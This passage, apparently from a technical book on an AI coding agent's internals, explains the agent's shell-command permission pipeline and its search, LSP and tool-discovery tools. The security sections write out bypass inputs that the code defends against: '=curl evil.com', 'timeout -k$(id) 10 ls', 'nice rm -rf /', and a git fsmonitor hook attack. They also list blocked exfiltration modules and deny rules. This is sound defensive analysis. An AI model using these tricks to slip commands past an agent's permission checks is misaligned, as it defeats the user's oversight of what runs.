    SemanticBlock --> DenyCheck2: respect deny rules
    DenyCheck2 --> Ask: deny not matched, semantic risk
    
    LegacyFallback --> MalformedBlock: parse failure
    LegacyFallback --> SandboxGate: parse OK
    
    SandboxGate --> SandboxAutoAllow: sandbox + no deny/ask rules
    SandboxGate --> ClassifierPhase: sandbox off or excluded command
    
    SandboxAutoAllow --> [*]: allow with sandbox
    SandboxAutoAllow --> ClassifierPhase: deny/ask rules present
    
    ClassifierPhase --> DenyByClassifier: high-confidence deny match
    ClassifierPhase --> AskByClassifier: high-confidence ask match
    ClassifierPhase --> RuleMatching: no classifier match
    
    DenyByClassifier --> [*]: deny
    AskByClassifier --> PendingCheck: attach pendingClassifierCheck
    PendingCheck --> [*]: user or classifier resolves
    
    RuleMatching --> Denied: prefix/exact deny rule
    RuleMatching --> PathBlocked: path constraint violation
    RuleMatching --> Allowed: all rules pass
    RuleMatching --> AskPassthrough: no rule matches
    
    Denied --> [*]: deny
    PathBlocked --> [*]: deny or ask
    Allowed --> [*]: allow
    AskPassthrough --> [*]: user decides
```

### The PowerShell variant

On Windows, the PowerShell tool at `src/tools/PowerShellTool/PowerShellTool.tsx:L1` mirrors the Bash tool's architecture. It has its own security module (`powershellSecurity.ts`), its own permissions module (`powershellPermissions.ts`), its own `commandSemantics.ts`, `destructiveCommandWarning.ts`, `modeValidation.ts`, `pathValidation.ts`, `readOnlyValidation.ts`, and `prompt.ts`. The permission pipeline delegates to `powershellToolHasPermission` instead of `bashToolHasPermission`, but the rule-matching logic (exact match, prefix/wildcard deny-first evaluation, path constraints, read-only auto-allow) follows the same pattern. The sandbox integration is shared: `shouldUseSandbox` is imported from `../BashTool/shouldUseSandbox.ts` at `src/tools/PowerShellTool/PowerShellTool.tsx:L36`, so both tools route to the same sandbox when enabled.

The PowerShell tool's rendering layer also mirrors the Bash tool's command-classification system. It defines `PS_SEARCH_COMMANDS` at `src/tools/PowerShellTool/PowerShellTool.tsx:L54` containing cmdlet names like `Select-String` (grep equivalent), `Get-ChildItem` (find equivalent), `Findstr` (native Windows search), and `Where.exe` (native Windows which). These mirror the Bash tool's `BASH_SEARCH_COMMANDS` set defined at `src/tools/BashTool/BashTool.tsx:L60`. This platform-specific adaptation is necessary because PowerShell's verb-noun naming convention and pipeline semantics differ from POSIX shells.

The PowerShell tool also defines `DIRECTORY_CHANGE_ALIASES` in its parser module, matching `cd`, `pushd`, and `popd` -- the same commands tracked by `isNormalizedCdCommand` at `src/tools/BashTool/bashPermissions.ts:L2603`. This symmetry ensures that the cd+git security gate (which blocks compound commands containing both a directory change and a git invocation) works identically on both platforms.

The PowerShell tool's `prompt.ts` at `src/tools/PowerShellTool/prompt.ts` provides PowerShell-specific instructions to the model, including guidance on cmdlet usage, pipeline semantics, and Windows path handling. Like the Bash tool's prompt at `src/tools/BashTool/prompt.ts`, it includes git commit and PR instructions, background-task usage notes, and attribution requirements.

### Fixed-point command stripping

A critical security mechanism in the permission pipeline is the iterative command normalization performed by `stripSafeWrappers` at `src/tools/BashTool/bashPermissions.ts:L524` and `stripAllLeadingEnvVars` at `src/tools/BashTool/bashPermissions.ts:L733`. The two-phase stripping operates as follows:

**Phase 1** strips leading safe environment variables and comment lines. Only variables in `SAFE_ENV_VARS` (e.g., `GOOS`, `NODE_ENV`, `LANG`, `TERM`) are stripped for allow rules, because stripping `DOCKER_HOST` or `KUBECONFIG` from an allow-rule match would hide the network endpoint from the permission check.

**Phase 2** strips wrapper commands (`timeout`, `time`, `nice`, `nohup`) and their flags. These wrappers use `execvp` to run their arguments, so `timeout 10 npm install` is semantically equivalent to `npm install` for permission purposes.

For deny rules, `stripAllLeadingEnvVars` strips ALL leading env var prefixes regardless of the safe list, because a denied command must stay denied even when prefixed with arbitrary variables like `FOO=bar denied_command`. Both functions are iterated to a fixed point, handling interleaved patterns like `nohup FOO=bar timeout 5 claude` where:

1. `stripSafeWrappers` strips `nohup`, yielding `FOO=bar timeout 5 claude`
2. `stripAllLeadingEnvVars` strips `FOO=bar`, yielding `timeout 5 claude`
3. `stripSafeWrappers` strips `timeout 5`, yielding `claude` (deny match)

This fixed-point command stripping pattern directly corresponds to the terminology registry's "fixed-point command stripping" entry.

## Edge cases and failure modes

### Compound commands and subcommand fanout

A compound command like `cd /tmp && rm -rf x && python3 script.py` is split into subcommands, each evaluated independently. The `MAX_SUBCOMMANDS_FOR_SECURITY_CHECK` cap at `src/tools/BashTool/bashPermissions.ts:L103` limits evaluation to 50 subcommands -- beyond this, the pipeline returns `ask` because it cannot prove safety. This cap was introduced after a ReDoS-like issue where `splitCommand_DEPRECATED` could produce an exponentially large subcommand array, starving the event loop at 100% CPU.

### cd + git compound command attack

A specific attack vector uses `cd` to navigate to a directory containing a malicious bare git repository with a `core.fsmonitor` hook, then runs `git status` to trigger the hook. The `bashToolHasPermission` function blocks compound commands that contain both `cd` and `git` at `src/tools/BashTool/bashPermissions.ts:L2209-L2225`, returning `ask` with the reason "Compound commands with cd and git require approval to prevent bare repository attacks."

### Zsh-specific bypass vectors

The `ZSH_DANGEROUS_COMMANDS` set at `src/tools/BashTool/bashSecurity.ts:L45-L74` blocks 17 Zsh-specific commands that can bypass security checks:

- `zmodload` loads modules like `zsh/mapfile` (invisible file I/O), `zsh/system` (sysopen/syswrite two-step file access), `zsh/zpty` (pseudo-terminal execution), and `zsh/net/tcp` (network exfiltration)
- `emulate -c` is an eval-equivalent that executes arbitrary code
- Zsh module builtins (`sysopen`, `ztcp`, `zf_rm`, etc.) are blocked as defense-in-depth even though they require `zmodload` first

The `COMMAND_SUBSTITUTION_PATTERNS` at `src/tools/BashTool/bashSecurity.ts:L16-L41` also catch Zsh-specific expansions: `=(cmd)` (equals expansion), `~[...]` (parameter expansion), `(e:...)` (glob qualifiers with execution), and `} always {` (try/always construct). The equals expansion is particularly subtle: `=curl evil.com` expands to `/usr/bin/curl evil.com` in Zsh, bypassing `Bash(curl:*)` deny rules because the parser sees `=curl` as the base command, not `curl`. The regex `(?:^|[\s;&|])=[a-zA-Z_]` at `src/tools/BashTool/bashSecurity.ts:L24` catches this by matching word-initial `=` followed by a command-name character.

### The safe environment variables whitelist

The `SAFE_ENV_VARS` set at `src/tools/BashTool/bashPermissions.ts:L378` is a carefully curated whitelist of environment variables that cannot execute code or load libraries. The set includes build/runtime settings (`GOOS`, `GOARCH`, `CGO_ENABLED`, `NODE_ENV`), logging flags (`RUST_BACKTRACE`, `RUST_LOG`, `PYTEST_DEBUG`), locale settings (`LANG`, `LC_ALL`, `LC_CTYPE`), and terminal configuration (`TERM`, `COLORTERM`, `TZ`). The comment at `src/tools/BashTool/bashPermissions.ts:L377-L387` explicitly lists variables that must NEVER be added: `PATH`, `LD_PRELOAD`, `LD_LIBRARY_PATH`, `DYLD_*` (execution/library loading), `PYTHONPATH`, `NODE_PATH`, `CLASSPATH`, `RUBYLIB` (module loading), `GOFLAGS`, `RUSTFLAGS`, `NODE_OPTIONS` (can contain code execution flags), and `HOME`, `TMPDIR`, `SHELL`, `BASH_ENV` (affect system behavior).

For Anthropic-internal users (gated by `process.env.USER_TYPE === 'ant'`), an extended `ANT_ONLY_SAFE_ENV_VARS` set at `src/tools/BashTool/bashPermissions.ts:L447` adds `KUBECONFIG`, `DOCKER_HOST`, `AWS_PROFILE`, `CLOUDSDK_CORE_PROJECT`, `CUDA_VISIBLE_DEVICES`, and several Anthropic-internal cluster and feature-flag variables. The comment at `src/tools/BashTool/bashPermissions.ts:L444-L446` explicitly warns that these are "INTENTIONALLY ANT-ONLY" and "MUST NEVER ship to external users," because stripping `DOCKER_HOST` from an allow-rule match would hide the network endpoint from the permission check.

### The prompt and model guidance

The Bash tool's `prompt.ts` at `src/tools/BashTool/prompt.ts` generates the model-facing description that appears in the tool listing. The `getSimplePrompt` function returns a concise version for contexts where the full prompt would be too large. The prompt includes several safety-relevant instructions:

- The `getBackgroundUsageNote` function at `src/tools/BashTool/prompt.ts:L36` explains the `run_in_background` parameter, cautioning the model that it should only use background execution when it does not need the result immediately.
- The `getCommitAndPRInstructions` function at `src/tools/BashTool/prompt.ts:L48` provides git commit and PR guidance, including undercover mode instructions that prevent the model from volunteering internal codenames in commit messages.
- The prompt includes timeout guidance via `getDefaultTimeoutMs` and `getMaxTimeoutMs`, which configure the default (120 seconds) and maximum (600 seconds) execution time for bash commands.

These prompt-level instructions are the outermost layer of defense -- they shape the model's behavior before it even constructs a command. Combined with the programmatic defenses in the permission pipeline, they form the "prompt-level guardrails" described in HER Section 12.4's five-layer defense-in-depth model.

### Prefix-rule word-boundary enforcement

Permission rules use word-boundary matching to prevent `Bash(ls:*)` from matching `lsof` or `lsattr`. The check at `src/tools/BashTool/bashPermissions.ts:L896-L900` requires the prefix to be followed by a space or end-of-string. This is a defense against parser differentials -- situations where the validator and the shell interpreter disagree on token boundaries.

### Sandbox excludedCommands bypass

The `excludedCommands` feature in `shouldUseSandbox.ts` is explicitly documented as "not a security boundary" at `src/tools/BashTool/shouldUseSandbox.ts:L18-L19`. The actual security control is the permission system, which always prompts users. ExcludedCommands is a convenience feature that prevents sandbox auto-allow for specific tools (e.g., `bazel:*`) that need unsandboxed access. The `containsExcludedCommand` function splits the command into subcommands and checks each against the exclusion list, with the same fixed-point stripping applied to each subcommand individually.

For Anthropic-internal users, a dynamic `tengu_sandbox_disabled_commands` GrowthBook flag provides additional substring-based exclusion matching at `src/tools/BashTool/shouldUseSandbox.ts:L24`. This allows the team to quickly disable sandboxing for specific commands in response to operational issues without requiring a code deploy.

### Permission rule suggestion heuristics

When the permission pipeline returns `ask` or `passthrough`, it includes a `suggestions` array containing `PermissionUpdate` objects that propose rules the user can add to avoid being prompted in the future. The suggestion logic is designed to propose the narrowest rule that covers the current command:

- `suggestionForExactCommand` at `src/tools/BashTool/bashPermissions.ts:L266` first checks for heredoc commands (which contain multi-line content that changes each invocation, making exact-match rules useless) and suggests a prefix rule based on the text before the heredoc operator instead.
- For multiline commands without heredoc, it uses the first line as a prefix rule to avoid generating patterns containing `:*` in the middle, which would fail permission validation and corrupt the settings file.
- For single-line commands, `getSimpleCommandPrefix` at `src/tools/BashTool/bashPermissions.ts:L161` extracts a stable 2-word prefix (e.g., `git commit` from `git commit -m "fix typo"`), skipping safe environment variable assignments.
- Commands whose first word is in `BARE_SHELL_PREFIXES` at `src/tools/BashTool/bashPermissions.ts:L196` (sh, bash, zsh, fish, sudo, env, xargs, etc.) are never used as prefix suggestions, because `Bash(bash:*)` would allow arbitrary code via `-c`, and `Bash(sudo:*)` would allow privilege escalation.

The `MAX_SUGGESTED_RULES_FOR_COMPOUND` cap at `src/tools/BashTool/bashPermissions.ts:L110` limits suggestion generation for compound commands to 5 rules, preventing the "Yes, and don't ask again for X, Y, Z..." label from degrading into noise when a user chains many write commands in a single `&&` list.

### The stripSafeWrappers security detail

The `stripSafeWrappers` function at `src/tools/BashTool/bashPermissions.ts:L524` contains several security-critical implementation details that are worth examining closely:

**Horizontal whitespace only**. The function's `SAFE_WRAPPER_PATTERNS` use `[ \t]+` rather than `\s+` to match whitespace between the wrapper and its arguments. The `\s` class matches `\n` and `\r`, which are command separators in bash. Matching across a newline would strip the wrapper from one line and leave a different command on the next line for bash to execute. The same constraint applies to the `ENV_VAR_PATTERN` at `src/tools/BashTool/bashPermissions.ts:L575`.

**Timeout flag-value allowlist**. The `TIMEOUT_FLAG_VALUE_RE` at `src/tools/BashTool/bashPermissions.ts:L620` restricts timeout flag values to `[A-Za-z0-9_.+-]+`. Previously, the pattern `[^ \t]+` matched `$`, `(`, `)`, backtick, `|`, `;`, and `&`. This allowed `timeout -k$(id) 10 ls` to strip to `ls`, matching `Bash(ls:*)`, while bash expanded `$(id)` during word splitting before timeout ran. The allowlist prevents this class of injection.

**The `--` end-of-options marker**. Each wrapper pattern includes `(?:--[ \t]+)?` to consume the wrapper's own `--` separator. Without this, `nohup -- rm -- -/../foo` would strip to `-- rm -- -/../foo`, leaving `--` as the unknown base command and skipping path validation entirely.

**Nice wrapper fix**. The pattern for `nice` at `src/tools/BashTool/bashPermissions.ts:L554 was updated to match all three forms (`nice cmd`, `nice -n N cmd`, `nice -N cmd`) that `checkSemantics` in `ast.ts` strips. Previously, the pattern only matched `nice -n N`, creating an asymmetry where `checkSemantics` exposed the wrapped command to semantic checks but deny-rule matching and the cd+git gate saw the wrapper name. This allowed `nice rm -rf /` with `Bash(rm:*)` deny to produce `ask` instead of `deny`.

## Where cc diverges from the published pattern

HER Pattern 10 describes deterministic pre-parsing and per-tool permission gating. cc's implementation goes significantly further in three ways:

**Tree-sitter--based AST validation**. The published pattern assumes regex-based classification. cc uses tree-sitter to produce a full bash AST, which resolves quotes, substitutions, and redirects structurally rather than heuristically. This eliminates entire classes of parser differentials -- for example, a mid-word `#` that would be treated as a comment by regex parsers but as a literal character by the shell.

**Three-layer classifier system**. The published pattern describes a single classifier. cc runs three independent classifiers in parallel: deny descriptions, ask descriptions, and allow descriptions. Each classifier produces a `ClassifierResult` with a confidence level, and the deny classifier always takes precedence over the ask classifier, which takes precedence over the allow classifier. This three-layer system is more robust than a single classifier because a failure in one layer does not compromise the others.

**Fixed-point command stripping**. The published pattern does not address the problem of wrapper commands and environment variable prefixes that can obscure the actual command being executed. cc's iterative stripping approach handles arbitrarily deep nesting of wrappers and env vars, ensuring that permission rules match the command that actually executes rather than the wrapper that obscures it.

cc also diverges from HER Section 12.4's threat model in one important way: the SSRF guard (defined in `src/utils/hooks/ssrfGuard.ts`) applies to HTTP hooks and web tools but not to the Bash tool's own `curl`/`wget` invocations. The Bash tool relies on permission rules and classifiers to catch network exfiltration, rather than the IP-range--based blocking that protects HTTP hooks. This is a deliberate tradeoff: applying DNS-rebinding protection to every `curl` invocation would produce an unacceptable volume of false positives for legitimate API calls during development, while the permission system provides a more targeted defense by allowing users to deny specific patterns like `Bash(curl:*)` or `Bash(wget:*)`.

A second divergence concerns the treatment of shell-based code execution. HER Section 12.4 recommends "input sanitization on all external content" and "deterministic validation (not LLM judgment) for security-critical decisions." cc's classifier pipeline uses LLM judgment (via `classifyBashCommand`) as a complement to deterministic validation, not a replacement. The AST-based validators and regex-based security checks are deterministic and always run first. The classifier only fires when deterministic checks pass without blocking, providing a second opinion that can catch semantic risks (e.g., `curl` piped to `bash`) that structural analysis misses. This two-tier approach -- deterministic first, probabilistic second -- reflects the practical reality that no set of regex patterns can cover every dangerous command variant, while an LLM-only approach would be too unreliable for a security boundary.

## Developer takeaways for building a long-running agent

**Layer your defenses**. The Bash tool's permission pipeline works because no single layer is responsible for catching every attack. AST parsing catches structural tricks, classifiers catch semantic risks, path constraints catch directory-escape attacks, and deny rules provide user-configured hard blocks. A failure in any one layer is caught by the others.

**Deny-first evaluation is non-negotiable**. The rule-matching order -- deny before ask, ask before allow -- is a safety invariant that must be maintained at every level. If allow rules were checked before deny rules, a user could never revoke permission for a previously allowed command. The same principle applies at the subcommand level: every subcommand in a compound command is checked against deny rules independently, so `cd /safe && rm -rf /` cannot be allowed by a `Bash(cd:*)` allow rule.

**Use fixed-point stripping for command normalization**. The interleaving of wrapper commands and environment variable prefixes creates a combinatorial explosion of command representations. Iterating `stripSafeWrappers` and `stripAllLeadingEnvVars` to a fixed point handles this correctly without requiring the developer to enumerate all possible combinations. This pattern is worth adopting whenever permission decisions depend on the command's base name.

**Separate informational warnings from permission logic**. The destructive-command warning system at `src/tools/BashTool/destructiveCommandWarning.ts` does not affect permission decisions. This separation is deliberate: warnings help the user make informed decisions, but they must never be confused with actual security boundaries. A warning that becomes a gate is a gate that can be bypassed by muting the warning.

**Treat exit-code semantics as part of the safety contract**. Misinterpreting `grep`'s exit code 1 as an error causes the model to waste turns on false failures, which degrades the user experience and can trigger retry loops. The `commandSemantics.ts` module is small but critical: it prevents the agent from entering diminishing-returns spirals caused by semantic misunderstandings of command results.
# Search, LSP, and Code Analysis Tools

## Overview

The tools in this chapter serve a different purpose than the file-system tools of Chapter 13: instead of reading and writing files, they search, analyze, and navigate code. `GrepTool` performs content search via ripgrep, `LSPTool` provides language-server-protocol operations (go-to-definition, find-references, hover, document symbols), and `ToolSearchTool` implements progressive tool expansion -- the mechanism by which cc exposes its full tool catalog to the model without flooding the initial prompt. Together, these tools implement HER Pattern 9 (Progressive Tool Expansion) and address HER failure mode 6.8 (Tool Explosion). This chapter covers the architecture of each tool, the LSP client lifecycle, the keyword-based search algorithm that powers `ToolSearchTool`, and the tradeoffs inherent in lazy tool loading.

## Data structures and contracts

### GrepTool schema

The `GrepTool` input schema mirrors ripgrep's command-line interface with semantic type wrappers:

```typescript
// src/tools/GrepTool/GrepTool.ts:L33-L89
const inputSchema = lazySchema(() =>
  z.strictObject({
    pattern: z.string().describe(
      'The regular expression pattern to search for in file contents',
    ),
    path: z.string().optional().describe(
      'File or directory to search in (rg PATH). Defaults to current working directory.',
    ),
    glob: z.string().optional().describe(
      'Glob pattern to filter files (e.g. "*.js", "*.{ts,tsx}") - maps to rg --glob',
    ),
    output_mode: z.enum(['content', 'files_with_matches', 'count']).optional(),
    '-B': semanticNumber(z.number().optional()),
    '-A': semanticNumber(z.number().optional()),
    '-C': semanticNumber(z.number().optional()),
    context: semanticNumber(z.number().optional()),
    '-n': semanticBoolean(z.boolean().optional()),
    '-i': semanticBoolean(z.boolean().optional()),
    type: z.string().optional(),
    head_limit: semanticNumber(z.number().optional()),
    offset: semanticNumber(z.number().optional()),
    multiline: semanticBoolean(z.boolean().optional()),
  }),
)
```

The `semanticNumber` and `semanticBoolean` wrappers solve a practical problem: LLMs frequently emit JSON with string-typed numeric fields (e.g., `"head_limit": "10"` instead of `"head_limit": 10`). Without these wrappers, Zod's `strictObject` parser would reject the input outright, causing a tool-call failure that the model must then retry. The `semanticNumber` wrapper coerces string representations of numbers into their numeric equivalents, reducing tool-call failures.

The output schema varies by mode. In `files_with_matches` mode, it returns sorted file paths; in `content` mode, it returns matched lines with line numbers; in `count` mode, it returns match counts per file. The output schema captures the applied limit and offset for pagination signaling:

```typescript
// src/tools/GrepTool/GrepTool.ts:L144-L156
const outputSchema = lazySchema(() =>
  z.object({
    mode: z.enum(['content', 'files_with_matches', 'count']).optional(),
    numFiles: z.number(),
    filenames: z.array(z.string()),
    content: z.string().optional(),
    numLines: z.number().optional(),
    numMatches: z.number().optional(),
    appliedLimit: z.number().optional(),
    appliedOffset: z.number().optional(),
  }),
)
```

### LSPTool schema

The `LSPTool` supports nine operations, each targeting a specific position in a source file:

```typescript
// src/tools/LSPTool/LSPTool.ts:L59-L86
const inputSchema = lazySchema(() =>
  z.strictObject({
    operation: z
      .enum([
        'goToDefinition',
        'findReferences',
        'hover',
        'documentSymbol',
        'workspaceSymbol',
        'goToImplementation',
        'prepareCallHierarchy',
        'incomingCalls',
        'outgoingCalls',
      ])
      .describe('The LSP operation to perform'),
    filePath: z.string().describe('The absolute or relative path to the file'),
    line: z.number().int().positive()
      .describe('The line number (1-based, as shown in editors)'),
    character: z.number().int().positive()
      .describe('The character offset (1-based, as shown in editors)'),
  }),
)
```

All nine operations require a file path and a position (line, character). This position-based interface mirrors the LSP protocol itself, where most requests are anchored to a specific text document position. The operations divide into three categories:

- **Navigation**: `goToDefinition`, `goToImplementation`, `findReferences`
- **Inspection**: `hover`, `documentSymbol`, `workspaceSymbol`
- **Call graph**: `prepareCallHierarchy`, `incomingCalls`, `outgoingCalls`

### ToolSearchTool schema

The `ToolSearchTool` input is intentionally minimal:

```typescript
// src/tools/ToolSearchTool/ToolSearchTool.ts:L21-L35
export const inputSchema = lazySchema(() =>
  z.object({
    query: z.string().describe(
      'Query to find deferred tools. Use "select:<tool_name>" for direct selection, or keywords to search.',
    ),
    max_results: z.number().optional().default(5)
      .describe('Maximum number of results to return (default: 5)'),
  }),
)
```

The output returns matching tool names, the total deferred count, and pending MCP server information:

```typescript
// src/tools/ToolSearchTool/ToolSearchTool.ts:L37-L45
export const outputSchema = lazySchema(() =>
  z.object({
    matches: z.array(z.string()),
    query: z.string(),
    total_deferred_tools: z.number(),
    pending_mcp_servers: z.array(z.string()).optional(),
  }),
)
```

The `pending_mcp_servers` field is critical for the model's planning: when it searches for a tool and finds zero matches, the presence of pending servers tells it that more tools will become available shortly, preventing it from concluding that a capability is missing.

## Control flow

### GrepTool: ripgrep delegation with permission filtering

The `GrepTool.call` method constructs a ripgrep command line from the input parameters and delegates to the `ripGrep` utility. The key steps are:

1. Build the argument list starting with `--hidden` and VCS-directory exclusions (`.git`, `.svn`, `.hg`, `.bzr`, `.jj`, `.sl`).

2. Apply `--max-columns 500` to prevent base64 or minified content from filling the output.

3. Add the user's glob patterns, type filters, and context flags.

4. Inject permission-based ignore patterns from `getFileReadIgnorePatterns`, converting them to ripgrep `--glob !pattern` exclusions.

5. Inject orphaned-plugin-cache exclusions.

6. Execute ripgrep and process results by output mode.

In `files_with_matches` mode, results are stat'd and sorted by modification time (most recent first), then relativized to save tokens:

```typescript
// src/tools/GrepTool/GrepTool.ts:L529-L556 (sort logic)
const stats = await Promise.allSettled(
  results.map(_ => getFsImplementation().stat(_)),
)
const sortedMatches = results
  .map((_, i) => {
    const r = stats[i]!
    return [_, r.status === 'fulfilled' ? (r.value.mtimeMs ?? 0) : 0] as const
  })
  .sort((a, b) => {
    const timeComparison = b[1] - a[1]
    if (timeComparison === 0) {
      return a[0].localeCompare(b[0])
    }
    return timeComparison
  })
  .map(_ => _[0])
```

The `Promise.allSettled` approach is defensive: if a stat fails (e.g., file was deleted between the ripgrep scan and the stat call), the file is assigned a timestamp of 0, placing it at the end of the sorted results rather than causing an error.

A default `head_limit` of 250 prevents unbounded context bloat from broad searches. The model can override with `head_limit: 0` for unlimited results. The `applyHeadLimit` function handles both limit and offset:

```typescript
// src/tools/GrepTool/GrepTool.ts:L110-L128
function applyHeadLimit<T>(
  items: T[],
  limit: number | undefined,
  offset: number = 0,
): { items: T[]; appliedLimit: number | undefined } {
  // Explicit 0 = unlimited escape hatch
  if (limit === 0) {
    return { items: items.slice(offset), appliedLimit: undefined }
  }
  const effectiveLimit = limit ?? DEFAULT_HEAD_LIMIT
  const sliced = items.slice(offset, offset + effectiveLimit)
  const wasTruncated = items.length - offset > effectiveLimit
  return {
    items: sliced,
    appliedLimit: wasTruncated ? effectiveLimit : undefined,
  }
}
```

When results are truncated, the output includes `[Showing results with pagination = limit: N]` so the model knows there may be more results and can paginate with `offset`. The `appliedLimit` is only reported when truncation actually occurred, preventing the model from incorrectly concluding that untruncated results are exhaustive.

### LSPTool: language-server integration

The `LSPTool` provides structured code navigation through the Language Server Protocol. It connects to the LSP server manager, which maintains running language server instances (e.g., TypeScript, Python). The tool validates that the file is not too large (10 MB cap) and that the LSP server is connected and initialized before dispatching the operation.

The eight operations map directly to LSP requests:

- `goToDefinition` / `goToImplementation`: resolve symbol locations across the workspace
- `findReferences`: find all usages across the workspace, including imports and indirect references
- `hover`: get type information, documentation, and inferred types at a position
- `documentSymbol` / `workspaceSymbol`: list symbols in a file or workspace (functions, classes, variables)
- `prepareCallHierarchy` / `incomingCalls` / `outgoingCalls`: trace call graphs to understand data flow and dependency chains

Results are formatted by dedicated formatters (e.g., `formatGoToDefinitionResult`, `formatFindReferencesResult`) that convert LSP response structures into human-readable text suitable for the model's context. The formatters are critical because raw LSP responses contain nested structures, URIs, and range objects that would waste tokens if sent verbatim.

```mermaid
sequenceDiagram
    participant Model
    participant LSPTool
    participant LSPManager
    participant LanguageServer

    Model->>LSPTool: goToDefinition /path/to/file.ts:42:10
    LSPTool->>LSPManager: getConnectedServer("typescript")
    LSPManager-->>LSPTool: server instance
    LSPTool->>LSPManager: waitForInitialization
    LSPManager->>LanguageServer: await initialization
    LanguageServer-->>LSPManager: initialized
    LSPTool->>LanguageServer: textDocument/definition
    LanguageServer-->>LSPTool: Location[]
    LSPTool->>LSPTool: formatGoToDefinitionResult
    LSPTool-->>Model: "Definition at /other/file.ts:L15:C5"
```

### ToolSearchTool: progressive tool expansion

The `ToolSearchTool` is the linchpin of cc's progressive tool expansion strategy. Instead of including all 60+ tools in the initial prompt (which would consume thousands of tokens and degrade selection accuracy), cc includes a small set of core tools and defers the rest. When the model needs a deferred tool, it queries `ToolSearchTool`, which returns matching tool names. The model then uses a `select:ToolName` query to activate the tool.

The search algorithm has two paths:

1. **Direct selection** (`select:ToolName`): If the query starts with `select:`, the tool checks whether the named tool exists in the deferred set (or the full tool set as a fallback). This handles the common case where the model knows the tool name from a previous search result.

2. **Keyword search**: The algorithm parses the query into terms, partitions them into required (`+`-prefixed) and optional terms, and scores each deferred tool by matching against its name parts, search hint, and description.

```mermaid
sequenceDiagram
    participant Model
    participant ToolSearch
    participant DeferredTools
    participant FullToolSet

    Model->>ToolSearch: query="notebook edit"
    ToolSearch->>DeferredTools: filter isDeferredTool
    ToolSearch->>ToolSearch: parseToolName for each
    ToolSearch->>ToolSearch: getToolDescriptionMemoized
    ToolSearch->>ToolSearch: score by name/hint/description match
    ToolSearch-->>Model: {matches: ["NotebookEdit"], total_deferred_tools: 25}

    Model->>ToolSearch: query="select:NotebookEdit"
    ToolSearch->>DeferredTools: findByName("NotebookEdit")
    DeferredTools-->>ToolSearch: found
    ToolSearch-->>Model: {matches: ["NotebookEdit"], total_deferred_tools: 25}
```

The keyword scoring weights reflect the signal quality of each match source:

- Exact name-part match: 10 points (12 for MCP tools, reflecting the higher specificity of server names)
- Partial name-part match: 5 points (6 for MCP)
- Search hint match (word boundary): 4 points
- Description match (word boundary): 2 points

MCP tool names are parsed differently from regular tools. The `mcp__server__action` format is split on `__` and `_` to extract searchable parts like "server" and "action". This is necessary because MCP tool names are auto-generated from the server and action names, and the raw format is not a natural search target.

The description cache is memoized by tool name and invalidated when the set of deferred tools changes (detected via a cache key that is the sorted, comma-joined list of deferred tool names):

```typescript
// src/tools/ToolSearchTool/ToolSearchTool.ts (memoization and cache invalidation)
// maybeInvalidateCache detects stale cache by comparing current cache key
// (sorted deferred tool names) against the cached key. When they differ,
// the entire memoization cache is cleared.
```

The `searchHint` field on tool definitions provides a curated, high-signal capability phrase that scores higher than the full description in keyword matching. For example, `NotebookEdit` has `searchHint: 'edit Jupyter notebook cells (.ipynb)'`, which matches queries like "notebook" or "jupyter" with higher confidence than the generic description text.

```mermaid
classDiagram
    class ToolSearchTool {
        +name: TOOL_SEARCH_TOOL_NAME
        +isReadOnly: true
        +isConcurrencySafe: true
        +call(input, context) Output
        +searchToolsWithKeywords(query, deferredTools, tools, maxResults)
    }

    class DeferredTool {
        +name: string
        +searchHint: string
        +prompt(context) string
        +isDeferred: true
    }

    class ParsedToolName {
        +parts: string[]
        +full: string
        +isMcp: boolean
    }

    ToolSearchTool --> DeferredTool : searches
    ToolSearchTool --> ParsedToolName : parses names
    DeferredTool --> ToolSearchTool : provides descriptions
```

## Edge cases and failure modes

**Ripgrep timeout.** On WSL, file reads are 3-5x slower than native Linux. The `GrepTool` relies on ripgrep's built-in timeout rather than using the `AbortController` to avoid interrupting the agent loop. If ripgrep times out, it throws a `RipgrepTimeoutError`, which propagates up so the model knows the search did not complete (rather than incorrectly inferring zero matches).

**Empty grep results.** When `output_mode` is `files_with_matches` and no files are found, the tool returns "No files found" instead of an empty list, giving the model a clear signal that the search came up empty rather than encountering an error. The same approach is used by the `Glob` tool: zero matches returns "No files found" rather than an empty array, which the model might interpret as an error condition.

**Head-limit truncation.** When results are truncated by `head_limit`, the output includes `[Showing results with pagination = limit: N]` so the model knows there may be more results and can paginate with `offset`. Without this signal, the model might incorrectly conclude that the returned results are exhaustive. The `appliedLimit` field is only set when truncation actually occurred, preventing false signals when all results fit within the limit.

**LSP server not ready.** The `LSPTool` checks `getInitializationStatus` and `waitForInitialization` before dispatching operations. If the LSP server is still initializing, the tool waits (up to a timeout) rather than failing immediately. This prevents errors during the early phase of a session when the language server is still indexing the workspace. The timeout behavior is important: waiting too long would stall the agent loop, while failing too early would cause unnecessary retry churn.

**MCP servers still connecting.** When `ToolSearchTool` returns zero matches, it checks for MCP servers that are still connecting and includes their names in the output. This informs the model that more tools will become available shortly, preventing it from concluding that a capability is missing. The `pending_mcp_servers` field is the mechanism that bridges the gap between MCP server startup latency and the model's need to plan its tool usage.

**Tool already loaded.** If the model uses `select:ToolName` for a tool that is already in the active (non-deferred) set, the search returns the tool name anyway. This is a harmless no-op that lets the model proceed without retry churn. The alternative -- returning an error -- would cause the model to waste turns searching for a tool it has already activated.

**Cache invalidation.** The `getToolDescriptionMemoized` cache can become stale when MCP servers connect or disconnect, changing the set of deferred tools. The `maybeInvalidateCache` function detects this by comparing the current cache key (sorted deferred tool names) against the cached key. When they differ, the entire memoization cache is cleared. The sorted, comma-joined cache key is simple but effective: any change in the deferred tool set produces a different key, triggering a full cache flush.

**Grep result persistence.** The `GrepTool` sets `maxResultSizeChars: 20_000`, which is the tool-result persistence threshold. Grep results that exceed this threshold are not persisted across turns, reducing context bloat for large search results. This is a tradeoff: the model loses access to the full search results in subsequent turns, but the context savings are significant for searches that return thousands of matches.

## Where cc diverges from the published pattern

HER Pattern 9 (Progressive Tool Expansion) recommends starting with fewer than 20 tools and activating more on demand. cc implements this with the `shouldDefer` flag on tool definitions. Tools like `NotebookEditTool` and `MCPTool` set `shouldDefer: true`, which excludes them from the initial prompt and makes them discoverable only through `ToolSearchTool`. Notably, `ToolSearchTool` itself is never deferred -- the `isDeferredTool()` function explicitly excludes it (`if (tool.name === TOOL_SEARCH_TOOL_NAME) return false`) because it is the search mechanism that makes deferred tools discoverable. Deferring the search tool would create a chicken-and-egg problem.

However, cc diverges from the published pattern in several ways:

